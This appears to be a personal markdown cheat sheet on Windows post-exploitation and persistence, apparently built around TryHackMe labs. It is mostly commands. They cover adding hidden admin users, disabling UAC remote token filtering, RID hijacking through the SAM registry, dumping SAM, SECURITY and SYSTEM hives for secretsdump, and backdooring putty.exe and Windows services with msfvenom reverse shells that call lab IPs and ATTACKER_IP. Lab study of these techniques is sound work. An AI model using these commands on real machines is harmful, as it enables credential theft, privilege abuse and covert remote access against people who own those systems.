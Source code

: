 

### Stabilize / Post Exploit / Persistance windows

#### Tampering with low users
- Create user + add group admin
  - **net user USERNAME PASS /add**
  - **net localgroup {Administrators/"Backup Operators"| "Remote Management Users" | "Remote Desktop Users"} Username /add**
  
- User Account Control
  - Less privilege when logged in remotly
  -  reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1

- Assign BACKUP OPERATOR groups
  - secedit /export /cfg config.inf
    - SeBackupPrivilege
    - SeRestorePrivilege
    - secedit /import /cfg config.inf /db config.sdb
    - secedit /configure /db config.sdb /cfg config.inf

- Allow winRM
  - Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI

- Change registry values
  - defauld admin RID = 500
  - Regular users RID >= 1000 ==> Find hex
  - wmic useraccount get name,sid
  - PsExec64.exe -i -s regedit
  - In: HKLM\SAM\SAM\Domains\Account\Users\
    - Change in F to value of admin in HEX(little endian)

#### Dump hashs
reg.exe save hklm\sam C:\path\to\save\sam.save
reg.exe save hklm\security C:\path\to\save\security.save
reg.exe save hklm\system C:\path\to\save\system.save

python3 secretsdump.py -sam /home/kali/Downloads/sam.save -security /home/kali/Downloads/security.save -system /home/kali/Downloads/system.save LOCAL


#### Backdoor
- find executables and "batizar"
  - msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=10.11.26.251 lport=4444 -b "\x00" -f exe -o puttyX.exe
  - msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
- shortcut
  - point the shortcut to payload

- File association
  - HKLM\Software\Classes ==> reference to standard program = script to be loaded

#### Create/Modfiy Services
- **Create**
  - sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
  - sc.exe start THMservice
  - create service with msfvenom:
    - msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
  